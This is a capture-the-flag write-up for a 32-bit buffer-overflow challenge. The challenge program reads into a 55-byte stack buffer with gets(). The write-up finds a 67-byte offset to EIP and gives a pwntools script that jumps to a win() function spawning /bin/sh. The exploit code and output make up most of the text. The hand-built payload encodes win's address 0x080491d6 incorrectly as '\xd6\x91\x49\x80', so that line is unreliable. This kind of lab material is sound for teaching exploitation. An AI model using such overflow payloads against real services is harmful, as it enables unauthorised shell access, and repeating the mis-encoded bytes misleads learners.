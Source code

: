 # Intro 2

Once again we have the source and the binary

main.c:
```
#include <stdlib.h>
#include <stdio.h>

void win(){
    system("/bin/sh");

}

void vuln(){
    char buf[55];
    gets(buf);
}

int main(){
    puts("Level 2: Control the IP\n");
    vuln();
    return 0;
}
```

checksec :
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Okay 32bit binary, again using "gets" so we know we can overflow this.

This time we want to overflow the instruction pointer and call the win() function as that will give us a shell

Same deal as intro1. Send the cyclic pattern and look at the stack in GDB

![](pics/1.png)


So we want to control the instruction pointer (EIP) The value in EIP from our pattern is "araa" so running "cyclic -l araa" returns 67 so our offset is 67

Because PIE is not enabled we know the address of the win function. We can jump to this address by sending 67 junk data and the address of win

```
❯ objdump -D pwnme|grep win
080491d6 <win>:
```

so our payload would look like ```b'A' * 67 + b'\xd6\x91\x49\x80'```

Sending that to the server would give us a shell. But pwntools make this even easier:

```
OFFSET = 67
payload = OFFSET * b'A'
payload += p32(elf.symbols['win'])

io.sendline(payload)
io.interactive()
```

![](pics/2.png)


